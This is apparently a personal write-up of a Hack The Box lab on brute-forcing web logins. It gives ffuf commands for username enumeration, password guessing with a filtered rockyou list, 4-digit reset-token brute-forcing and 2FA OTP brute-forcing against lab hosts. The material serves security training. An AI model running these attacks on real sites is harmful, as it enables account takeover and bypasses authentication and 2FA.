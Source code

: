 # 🏍️ Brute-Force Attacks

## Enumerating Users

User enumeration vulnerabilities arise when a web application responds differently to registered/valid and invalid inputs for authentication endpoints

Let's imagine those 2 errors:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>User does not exist</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Just a wrong password </p></figcaption></figure>

To enumerate users via error messages, we will use the `xato-net-10-million-usernames.txt`

Let's imagine the following error message:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we can filter out invalid users by removing responses containing the string `Unknown user`

```shell-session
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

And when we identify a valid user, we can proceed to do bruteforce

_**Enumerate a valid user on the web application. Provide the username as the answer.**_

```
fuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.56.194:35890/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Brute-Forcing Passwords

Let's imagine we got password policy going on and we're not sure about lockout policy, we can create wordlists according to the policy from famous wordlists to reduce noise:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```shell-session
ElFelixi0@htb[/htb]$ grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

Once we got our user or our list of users and our post variable as well as the error messgae, we can start bruteforcing ->

```
ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

_**What is the password of the user 'admin'?**_

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w custom_wordlist.txt -u http://94.237.53.113:46749/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Password Reset Tokens

Many web applications implement a password-recovery functionality if a user forgets their password that often utilizes a one-time reset token via SMS or email.

Here is a a basic password reset flow

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To start exploiting this, let's imagine we created an account on the website and asked for a new password and received this type of email:

```
<SNIP>
paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351
<SNIP>
```

We can see that we get the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values&#x20;

So let's start by making our list of possible tokens:

```shell-session
seq -w 0 9999 > tokens.txt
```

and then launch our attack and all ports, thus attacking every user that is currently resseting their password

```shell-session
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

_**Takeover another user's account on the target system to obtain the flag.**_

```
ffuf -w ./tokens.txt -u http://94.237.50.83:58664/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 2FA Codes

Generally this is achieved by combining knowledge-based authentication (password) with ownership-based authentication (the 2FA device)

most of the time, it relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS that are typically **only of digits**

Let's say we have a set of credentials and there is 2FA:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we capture the request we can see the follwoing:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>only <code>10,000</code> possible variations</p></figcaption></figure>

So let's start by crafting our wordlist, then our payload:

```shell-session
seq -w 0 9999 > tokens.txt
```

We can't forget the error message:&#x20;

```shell-session
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

_**Brute-force the admin user's 2FA code on the target system to obtain the flag.**_

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w tokens.txt -u http://94.237.56.194:54467/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=d3ng2r9pippot860ural3jls64" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
